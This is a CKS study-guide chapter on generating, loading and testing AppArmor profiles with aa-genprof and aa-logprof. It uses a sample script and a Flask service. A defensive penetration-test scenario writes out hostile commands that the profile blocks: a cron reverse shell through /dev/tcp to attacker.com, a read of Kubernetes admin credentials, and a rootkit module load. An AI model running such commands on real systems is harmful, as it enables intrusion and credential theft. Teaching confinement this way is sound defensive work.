




# 15 — Creating AppArmor Profiles

> **Domain:** System Hardening | **CKS Exam Weight:** High  
> **Prerequisites:** Ch. 14 (AppArmor), Ch. 12 (Seccomp)  
> **Leads Into:** Ch. 16 (AppArmor in Kubernetes)

---

## Why This Matters

In Chapter 14 you learned *what* AppArmor does and *how* it works. Now comes the critical skill: actually **writing profiles** for real applications. Knowing the theory without being able to create and load a profile means you can't protect anything in practice — and the CKS exam will ask you to do exactly this.

Writing AppArmor profiles by hand is error-prone. Miss one allowed path and your application breaks. Miss one denied path and you leave an attack vector open. The professional approach is to use **`aa-genprof`** — AppArmor's interactive profile generator that watches your application run and builds the profile from real observed behaviour.

This chapter mirrors the **audit → observe → enforce** workflow from Seccomp (Ch. 13), but AppArmor's tooling makes it even more structured: `aa-genprof` walks you through every access event and lets you decide allow/deny interactively, producing a profile you can immediately load into production.

---

## What Is `aa-genprof`?

**`aa-genprof`** (AppArmor Generate Profile) is an interactive CLI tool from the `apparmor-utils` package that automates AppArmor profile creation for a specific binary or script. Instead of guessing which files, directories, and capabilities your application needs, `aa-genprof`:

1. Puts the target application into **complain mode** (logging without enforcement)
2. Asks you to **run the application** in another terminal so it exercises its real behaviour
3. **Scans the system logs** for every access the application attempted
4. Presents each access to you interactively — you choose **allow** or **deny**
5. Generates a finished profile and switches it to **enforce mode**

```mermaid
flowchart TD
    A["aa-genprof /path/to/app"] --> B["Puts app in complain mode\nCreates initial empty profile"]
    B --> C["You run the app\nin another terminal"]
    C --> D["App exercises its\nnormal behaviour"]
    D --> E["Back in aa-genprof:\nPress S to Scan logs"]
    E --> F["aa-genprof shows\neach access event"]
    F --> G{For each event:\nAllow or Deny?}
    G -->|"(A)llow"| H["Added to profile\nas allow rule"]
    G -->|"(D)eny"| I["Added to profile\nas deny rule"]
    G -->|"(I)gnore"| J["Skipped — not added\nto profile"]
    H & I & J --> K{More events?}
    K -->|Yes| F
    K -->|No — (F)inish| L["Profile saved to\n/etc/apparmor.d/"]
    L --> M["Switches to enforce mode\nProfile is now active"]

    style A fill:#0066cc,color:#fff
    style M fill:#00aa44,color:#fff
```

---

## Step-by-Step: Creating a Profile for `add_data.sh`

### The Target Application

We'll profile a simple bash script that creates directories and writes a log file:

**`/root/add_data.sh`:**

```bash
#!/bin/bash
data_directory=/opt/app/data
mkdir -p "${data_directory}"
echo "=> File created at $(date)" | tee "${data_directory}/create.log"
```

**What this script does:**
1. Creates `/opt/app/data/` directory (if it doesn't exist)
2. Runs `date` to get the current timestamp
3. Pipes output through `tee` — writes to both stdout and the log file

**Run it to confirm it works:**

```bash
./add_data.sh
# => File created at Mon Mar 12 03:29:22 UTC 2021

cat /opt/app/data/create.log
# => File created at Mon Mar 12 03:29:22 UTC 2021
```

### Step 1 — Install AppArmor Utilities

```bash
apt-get install -y apparmor-utils
```

This installs: `aa-genprof`, `aa-logprof`, `aa-status`, `aa-complain`, `aa-enforce`, `aa-disable` and their Python dependencies.

### Step 2 — Start `aa-genprof`

Open **Terminal 1** and run:

```bash
aa-genprof /root/add_data.sh
```

Output:

```
Writing updated profile for /root/add_data.sh.
Setting /root/add_data.sh to complain mode!

Before you begin, you may wish to check if a profile already exists for
the application you wish to confine. See the following wiki page for
more information:
https://gitlab.com/apparmor/apparmor/wikis/Profiles

Profiling: /root/add_data.sh

Please start the application to be profiled in another window and exercise
its functionality now. Once completed, select the "Scan" option below in
order to scan the system logs for AppArmor events.

For each AppArmor event, you will be given the opportunity to choose
whether the access should be allowed or denied.

[(S)can system log for AppArmor events] / (F)inish
```

**What happened behind the scenes:**
- `aa-genprof` created a minimal stub profile for `/root/add_data.sh`
- Loaded it in **complain mode** — the script can run freely, but every access is logged
- Now waiting for you to run the application

### Step 3 — Run the Application (Terminal 2)

Open **Terminal 2** (keep Terminal 1 open and waiting):

```bash
./add_data.sh
# => File created at Mon Mar 12 03:29:22 UTC 2021
```

Every syscall and file access the script makes is now captured in the audit log.

### Step 4 — Scan and Review Events

Back in **Terminal 1**, press **`s`** (Scan):

```
[(S)can system log for AppArmor events] / (F)inish
s
```

`aa-genprof` reads the audit log and presents each event. You respond to each one:

---

**Event 1 — Execute `/usr/bin/mkdir`:**

```
Profile:  /root/add_data.sh
Execute:  /usr/bin/mkdir
Severity: unknown

(I)nherit / (C)hild / (P)rofile / (N)amed / (U)nconfined / (X) ix On / (D)eny / Abo(r)t / (F)inish
```

The script needs to run `mkdir` — enter **`i`** (Inherit). This means `mkdir` runs under the same profile as the parent script, inheriting its permissions.

---

**Event 2 — Execute `/usr/bin/tee`:**

```
Profile:  /root/add_data.sh
Execute:  /usr/bin/tee
Severity: 3

(I)nherit / (C)hild / (P)rofile / (N)amed / (U)nconfined / (X) ix On / (D)eny / Abo(r)t / (F)inish
```

Enter **`i`** (Inherit) — `tee` writes the file and prints to stdout.

---

**Event 3 — TTY/Console Access (Severity 9):**

```
Profile:  /root/add_data.sh
Path:     /dev/tty
New Mode: rw
Severity: 9

[1 - /dev/tty rw,]
(A)llow / [D]eny / [I]gnore / [G]lob / Glob with [E]xtension / [N]ew /
Audi(t) / [O]wner permissions off / Abo(r)t / [F]inish
```

The script uses `tee` to print to the terminal. TTY access is legitimate for this script — enter **`a`** (Allow).

---

**Event 4 — Read `/proc/filesystems` (Severity 6):**

```
Profile:  /root/add_data.sh
Path:     /proc/filesystems
New Mode: owner r
Severity: 6

[1] 'owner /proc/filesystems r,'
(A)llow / [D]eny / [I]gnore / [G]lob / Glob with [E]xtension / [N]ew /
Audi(t) / [O]wner permissions off / Abo(r)t / [F]inish
```

The script doesn't need to read `/proc/filesystems` directly — this is accessed by the `mkdir` binary's glibc during its startup. It's not required for the script's purpose — enter **`d`** (Deny). This demonstrates the principle of **least privilege**: deny anything not strictly necessary.

### Step 5 — Save and Finish

After reviewing all events, press **`s`** to save, then **`f`** to finish:

```
= Changed Local Profiles =
The following local profiles were changed. Would you like to save them?
[1 - /root/add_data.sh]
(s)ave Changes / Save Sele(c)t(ed) Profile / [(V)iew Changes] / Abo(r)t

s
Writing updated profile for /root/add_data.sh.

[(S)can system log for AppArmor events] / (F)inish
f
Setting /root/add_data.sh to enforce mode.
Finished generating profile for /root/add_data.sh
```

The profile is now in **enforce mode** and active.

---

## The Generated Profile

`aa-genprof` saves the profile to `/etc/apparmor.d/root.add_data.sh` (the filename is derived from the binary path with `/` replaced by `.`):

```bash
cat /etc/apparmor.d/root.add_data.sh
```

```
# Last Modified: Mon Mar 22 11:21:42 2021
#include <tunables/global>

/root/add_data.sh {
    #include <abstractions/base>     ← Core glibc/runtime access
    #include <abstractions/bash>     ← Bash shell abstractions
    #include <abstractions/consoles> ← Terminal/TTY access

    deny owner /proc/filesystems r,  ← We denied this in the session

    /root/add_data.sh r,             ← Script can read itself (bash needs this)
    /usr/bin/bash ix,                ← Execute bash, inherit profile
    /usr/bin/date mrix,              ← Execute date, memory-map + inherit
    /usr/bin/mkdir mrix,             ← Execute mkdir, memory-map + inherit
    /usr/bin/tee mrix,               ← Execute tee, memory-map + inherit

    owner /opt/app/ rw,              ← Read/write the app directory
    owner /opt/app/data/ w,          ← Write to data subdirectory
    owner /opt/app/data/create.log w,← Write to the specific log file
}
```

### Anatomy of the Generated Profile



### Understanding the `mrix` Permission

You'll see `mrix` on executable files. Breaking it down:

| Letter | Permission | Meaning |
|--------|-----------|---------|
| `m` | Memory map | Allows `mmap()` with `PROT_EXEC` — needed to load shared libraries (`libc.so`, etc.) |
| `r` | Read | Read the binary file |
| `i` | Inherit | Run under the current profile (not a new one) |
| `x` | Execute | Execute the binary |

Combined: `mrix` = the binary can be memory-mapped, read, and executed while inheriting the parent's AppArmor profile. This is the standard permission set for trusted child executables.

### The `owner` Keyword

```
owner /opt/app/data/create.log w,
```

`owner` means this rule applies **only when the process owns the file** (i.e., the file's UID matches the process's UID). This prevents the script from writing to files owned by root even if the path pattern matches — least privilege at the user level.

---

## Testing the Enforced Profile

Now test that the profile correctly blocks access to paths outside what was allowed.

### Modify the Script to Write to an Unauthorised Path

```bash
cat > /root/add_data.sh << 'EOF'
#!/bin/bash
data_directory=/opt          ← Changed from /opt/app/data to /opt
mkdir -p "${data_directory}"
echo "=> File created at $(date)" | tee "${data_directory}/create.log"
EOF
```

### Run the Modified Script

```bash
./add_data.sh
```

Output:

```
tee: /opt/create.log: Permission denied
=> File created at Mon 22 Mar 2021 04:04:47 PM EDT
```

**What happened:**
- `tee` tried to write to `/opt/create.log`
- AppArmor's profile only allows writes to `owner /opt/app/data/create.log`
- `/opt/create.log` doesn't match — access **denied**
- The text still printed to the terminal (stdout is allowed via `abstractions/consoles`)

This confirms the profile is working correctly: the application output reaches the screen but cannot write outside its designated directory.

---

## Updating Profiles with `aa-logprof`

When your application changes and needs access to new paths, you don't need to regenerate the profile from scratch. Use **`aa-logprof`** — it reads the AppArmor audit log and suggests additions to existing profiles.



```bash
# After observing denials in the log, update the profile
aa-logprof

# aa-logprof reads /var/log/audit/audit.log and /var/log/syslog
# It shows only NEW violations not yet in the profile
# Respond Allow/Deny for each, then save
```

### Viewing AppArmor Denials

```bash
# Check syslog for AppArmor denials
grep -i apparmor /var/log/syslog | grep DENIED | tail -20

# Check audit log (if auditd is running)
grep -i apparmor /var/log/audit/audit.log | grep DENIED | tail -20

# More readable format using ausearch
ausearch -m AVC -ts today | grep apparmor
```

Sample denial log entry:

```
Mar 22 04:04:47 node01 kernel: [5123.456] audit: type=1400 audit(1616378687.456:47):
  apparmor="DENIED" operation="open" profile="/root/add_data.sh"
  name="/opt/create.log" pid=12345 comm="tee"
  requested_mask="wc" denied_mask="wc" fsuid=0 ouid=0
```

**Reading the denial entry:**

| Field | Value | Meaning |
|-------|-------|---------|
| `apparmor="DENIED"` | DENIED | Access was blocked |
| `operation="open"` | open | The `open()` syscall was attempted |
| `profile="/root/add_data.sh"` | our profile | Which profile made the decision |
| `name="/opt/create.log"` | the path | File that was blocked |
| `comm="tee"` | tee | The process that tried the access |
| `requested_mask="wc"` | write+create | What permissions were requested |
| `denied_mask="wc"` | write+create | What permissions were denied |

---

## Loading, Reloading, and Disabling Profiles

### Load a Profile

```bash
# Load (or reload after editing) a profile into the kernel
apparmor_parser -r /etc/apparmor.d/root.add_data.sh

# No output = success
# Confirm it loaded:
aa-status | grep add_data
```

### Reload All Profiles

```bash
# Reload all profiles in /etc/apparmor.d/
systemctl reload apparmor

# Or using apparmor_parser
apparmor_parser -r /etc/apparmor.d/
```

### Disable a Profile

Disabling a profile means the application runs completely **unconfined**:

```bash
# Method 1: Use aa-disable (preferred)
aa-disable /etc/apparmor.d/root.add_data.sh
# This creates a symlink in /etc/apparmor.d/disable/ and unloads from kernel

# Method 2: Manual symlink + parser
ln -s /etc/apparmor.d/root.add_data.sh /etc/apparmor.d/disable/
apparmor_parser -R /etc/apparmor.d/root.add_data.sh   # -R removes from kernel

# Verify it's gone
aa-status | grep add_data
# (no output = profile not loaded)
```

### Re-enable a Disabled Profile

```bash
# Remove the disable symlink and reload
rm /etc/apparmor.d/disable/root.add_data.sh
apparmor_parser -r /etc/apparmor.d/root.add_data.sh
aa-enforce /etc/apparmor.d/root.add_data.sh
```

---

## Verifying the Profile is Active

```bash
aa-status
```

Expected output after generating the `add_data.sh` profile:

```
apparmor module is loaded.
13 profiles are loaded.
13 profiles are in enforce mode.
    /root/add_data.sh                ← Our new profile in enforce mode
    /sbin/dhclient
    /usr/bin/man
    /usr/lib/NetworkManager/nm-dhcp-client.action
    /usr/lib/NetworkManager/nm-dhcp-helper
    /usr/lib/connman/scripts/dhclient-script
    /usr/lib/snapd/snap-confine
    /usr/sbin/tcpdump
    docker-default
    man_filter
    man_groff
0 profiles are in complain mode.
11 processes have profiles defined.
11 processes are in enforce mode.
    /root/add_data.sh                ← Profile is applied to running processes
    /sbin/dhclient (621)
    docker-default (3970)
    ...
```

---

## Profile Development Best Practices



### Key Best Practices

**1. Exercise all code paths during profiling**

`aa-genprof` only captures what actually runs during the profiling session. If you don't trigger a code path, its access events won't appear — and that path will be denied in enforce mode.

```bash
# Good profiling session for a web app:
# - Start the service
# - Make requests to every API endpoint
# - Trigger error handling (404, 500, auth failures)
# - Run admin/maintenance functions
# - Test startup and graceful shutdown
```

**2. Use abstractions where possible**

AppArmor ships with pre-built abstractions for common access patterns:

```
#include <abstractions/base>          ← glibc, locale, nsswitch
#include <abstractions/bash>          ← Shell scripting support
#include <abstractions/nameservice>   ← DNS/hosts resolution
#include <abstractions/ssl_certs>     ← TLS certificate bundles
#include <abstractions/python>        ← Python runtime files
#include <abstractions/openssl>       ← OpenSSL libraries
#include <abstractions/apache2-common> ← Apache web server files
```

Find all available abstractions:

```bash
ls /etc/apparmor.d/abstractions/
```

**3. Use glob patterns judiciously**

```
# Too broad — allows access to ALL /tmp files
/tmp/** rw,

# Better — only allow your app's temp files
/tmp/myapp-* rw,
/tmp/myapp/** rw,
```

**4. Start tight, loosen carefully**

```bash
# Wrong approach: start permissive, hope to tighten later (never happens)
# Right approach: start tight, loosen only when denied events prove it's needed
```

**5. Always test after changes**

```bash
# After any profile edit, reload and re-test
apparmor_parser -r /etc/apparmor.d/my-profile
./run-tests.sh     # Your application test suite
grep DENIED /var/log/syslog | grep my-profile   # Any new denials?
```

---

## The `aa-genprof` Interactive Options Reference

During the `aa-genprof` session, you'll see different prompts. Here are all the options:

### Execute Event Options

When `aa-genprof` asks about executing another binary:

| Option | Key | Meaning |
|--------|-----|---------|
| **Inherit** | `i` | Child process runs under the **same profile** as the parent |
| **Child** | `c` | Child process runs under a new **child profile** (more restrictive) |
| **Profile** | `p` | Child transitions to an existing **named profile** |
| **Named** | `n` | Specify a profile name to transition to |
| **Unconfined** | `u` | Child runs without any AppArmor profile ⚠️ |
| **ix On** | `x` | Same as Inherit but sets `ix` flag explicitly |
| **Deny** | `d` | Deny execution of this binary |

### File Access Event Options

When `aa-genprof` asks about a file access:

| Option | Key | Meaning |
|--------|-----|---------|
| **Allow** | `a` | Add the exact path with the requested permission |
| **Deny** | `d` | Deny this specific access |
| **Ignore** | `i` | Skip — don't add to profile (access will be denied) |
| **Glob** | `g` | Generalise path with `*` (single directory level) |
| **Glob with Extension** | `e` | Generalise path keeping file extension |
| **New** | `n` | Enter a custom path/rule manually |
| **Audit** | `t` | Allow but also log in audit log |
| **Owner permissions off** | `o` | Remove the `owner` qualifier from the rule |

### Top-Level Scan Options

| Option | Key | Meaning |
|--------|-----|---------|
| **Scan** | `s` | Scan system logs for new AppArmor events |
| **Finish** | `f` | Done reviewing events — save and exit |

---

## Real-World Scenarios

### Scenario 1 — Profiling a Production Python Service

**Situation:** A Python Flask API needs an AppArmor profile before deploying to production.

**Step 1 — Start profiling:**

```bash
aa-genprof /usr/bin/python3
# Note: profile is for the Python interpreter, not the script
```

**Step 2 — Exercise ALL endpoints in another terminal:**

```bash
# Start the app
FLASK_APP=api.py python3 -m flask run &

# Exercise every endpoint
curl http://localhost:5000/health
curl http://localhost:5000/api/users
curl -X POST http://localhost:5000/api/users -d '{"name":"test"}'
curl http://localhost:5000/api/users/1
curl -X DELETE http://localhost:5000/api/users/1
curl http://localhost:5000/metrics        # Prometheus endpoint
# Also trigger startup, DB connection, config reload
```

**Step 3 — Scan and respond to events:**

Key decisions:
- `/etc/flask-app/config.yaml` → **Allow** `r` (config must be read)
- `/var/log/flask-app/*.log` → **Allow** `wa` (write + append logs)
- `/tmp/flask-*` → **Allow** `rw` (Flask temp files)
- `/etc/shadow` → **Deny** (no reason for app to access this)
- `/proc/*/mem` → **Deny** (memory access — not needed)
- `/sys/kernel/**` → **Deny** (kernel parameters — not needed)

**Step 4 — Generated profile includes:**

```
/usr/bin/python3 {
    #include <abstractions/base>
    #include <abstractions/python>
    #include <abstractions/nameservice>   ← DNS for DB connection

    /etc/flask-app/config.yaml r,
    /var/log/flask-app/*.log wa,
    /tmp/flask-* rw,
    /app/** r,                            ← Read application code
    /app/api.py ix,                       ← Execute main module

    # Database connection
    network tcp,

    # Deny sensitive paths
    deny /etc/shadow r,
    deny /etc/kubernetes/** r,
    deny /proc/*/mem rw,
    deny /root/** rw,
}
```

---

### Scenario 2 — Using `aa-logprof` When a New Feature Breaks in Production

**Situation:** After adding a PDF export feature to a web app, users get an error. The app's AppArmor profile was created before the PDF feature existed.

**Diagnosis:**

```bash
# Find the denial
grep DENIED /var/log/syslog | grep web-app | tail -5

# Output:
# apparmor="DENIED" operation="open" profile="/usr/bin/python3"
# name="/usr/lib/python3/dist-packages/reportlab/__init__.py"
# pid=4521 comm="python3" requested_mask="r" denied_mask="r"

# The PDF library (reportlab) is blocked — it's not in the profile
```

**Fix with `aa-logprof`:**

```bash
aa-logprof

# aa-logprof shows:
# Profile: /usr/bin/python3
# Path:    /usr/lib/python3/dist-packages/reportlab/**
# Mode:    r
# Severity: 4
# [1] /usr/lib/python3/dist-packages/reportlab/** r,
# (A)llow / (D)eny / (I)gnore / (G)lob / ...

# Enter A to allow
# Save and reload
```

```bash
# Verify profile is updated
grep reportlab /etc/apparmor.d/usr.bin.python3
# /usr/lib/python3/dist-packages/reportlab/** r,

# Reload
apparmor_parser -r /etc/apparmor.d/usr.bin.python3

# Test the PDF export
curl http://localhost:5000/api/export/pdf  # Now works!
```

---

### Scenario 3 — Verifying a Profile Prevents a Security Test

**Situation:** Security team does a penetration test against a profiled container. They want to verify the AppArmor profile blocks their standard container escape toolkit.

**Test: Attempt to read Kubernetes credentials:**

```bash
# Pen tester has shell inside the container
cat /etc/kubernetes/admin.conf
# cat: /etc/kubernetes/admin.conf: Permission denied ← AppArmor denies

# Pen tester tries to write a malicious cron job
echo "* * * * * root bash -i >& /dev/tcp/attacker.com/4444 0>&1" >> /etc/cron.d/malicious
# bash: /etc/cron.d/malicious: Permission denied ← AppArmor denies

# Pen tester tries to read /proc/1/maps (container escape recon)
cat /proc/1/maps
# cat: /proc/1/maps: Permission denied ← AppArmor denies

# Pen tester tries to load a kernel module
insmod rootkit.ko
# insmod: ERROR: could not insert module: Permission denied ← AppArmor + capability denial
```

**All escape paths blocked.** The AppArmor profile is confirmed effective.

**Audit log captures all attempts:**

```bash
grep DENIED /var/log/syslog | tail -10
# All four attempts logged with timestamps, PIDs, and file paths
# Full audit trail for compliance reporting
```

---

## Common Mistakes and Pitfalls

| Mistake | Symptom | Fix |
|---------|---------|-----|
| Not exercising all code paths during profiling | App works in testing, breaks in prod when untested path runs | Re-run `aa-genprof` with full integration tests |
| Accepting every `(A)llow` without thinking | Profile is too permissive — provides little protection | Deny anything not clearly needed by the application |
| Profiling with a root user but running app as non-root | `owner` rules don't match — app gets denied | Profile the app running as the same user it uses in production |
| Editing the profile file manually without reloading | Old rules stay active | Always run `apparmor_parser -r /etc/apparmor.d/<profile>` after editing |
| Not testing the profile before switching to enforce | App breaks in production | Test in complain mode first, check denials, then switch to enforce |
| Profile in `/etc/apparmor.d/` but not referenced correctly | Profile loads but is never applied to the container | Profile name must exactly match the binary path or the Docker/K8s annotation |

---

## Quick Reference — Profile Management Commands

```bash
# ── GENERATE A NEW PROFILE ─────────────────────────────────────────
aa-genprof /path/to/binary

# ── UPDATE AN EXISTING PROFILE FROM LOG ────────────────────────────
aa-logprof

# ── LOAD / RELOAD A PROFILE ────────────────────────────────────────
apparmor_parser -r /etc/apparmor.d/<profile>

# ── SWITCH MODES ───────────────────────────────────────────────────
aa-complain /etc/apparmor.d/<profile>    # → complain (log only)
aa-enforce  /etc/apparmor.d/<profile>    # → enforce (block violations)
aa-disable  /etc/apparmor.d/<profile>    # → unload from kernel

# ── VERIFY STATUS ──────────────────────────────────────────────────
aa-status
cat /sys/kernel/security/apparmor/profiles

# ── VIEW DENIALS ───────────────────────────────────────────────────
grep DENIED /var/log/syslog | grep <profile-name>
ausearch -m AVC -ts today | grep apparmor

# ── PROFILE STORAGE LOCATION ───────────────────────────────────────
ls /etc/apparmor.d/

# ── DISABLED PROFILES LOCATION ─────────────────────────────────────
ls /etc/apparmor.d/disable/
```

---

## CKS Exam Tips



**Critical exam facts:**
- `aa-genprof <binary>` — generates a new profile interactively
- `aa-logprof` — updates existing profiles from audit log
- Profile files stored in `/etc/apparmor.d/`
- `apparmor_parser -r <profile>` — loads or reloads a profile
- `aa-genprof` automatically switches to **enforce** mode when you finish
- During the session: `s` = scan, `a` = allow, `d` = deny, `i` = inherit (for exec), `f` = finish
- Denial logs appear in `/var/log/syslog` with `apparmor="DENIED"`

---

## Chapter Summary

| Concept | Key Takeaway |
|---------|-------------|
| **`aa-genprof`** | Interactive profile generator — watches the app run and builds rules from real behaviour |
| **Two-terminal workflow** | Terminal 1: `aa-genprof` waiting; Terminal 2: run the application |
| **Complain mode first** | `aa-genprof` starts in complain mode — app can run while events are captured |
| **Inherit (`i`)** | Child process runs under parent's profile — standard for trusted sub-commands |
| **Deny (`d`)** | Any access not strictly needed should be denied — least privilege |
| **Generated profile path** | `/etc/apparmor.d/<binary-path-with-dots>` |
| **`mrix` permission** | Memory-map + Read + Inherit + eXecute — standard for sub-executables |
| **`owner` keyword** | Rule only applies when the process owns the file — extra privilege reduction |
| **`aa-logprof`** | Update profiles when app changes — reads denials and prompts for decisions |
| **`apparmor_parser -r`** | Reload a profile into the kernel after editing |
| **Test the profile** | Run the app, attempt unauthorised access — confirm it's denied |

---

## What's Next

- **Chapter 16 — AppArmor in Kubernetes:** Apply the AppArmor profiles you just learned to create to Kubernetes pods using annotations (pre-1.30) and the native `appArmorProfile` field (K8s 1.30+)

---

*Sources: AppArmor Wiki, Ubuntu AppArmor Documentation, KodeKloud CKS Course, `man aa-genprof`, `man aa-logprof`*
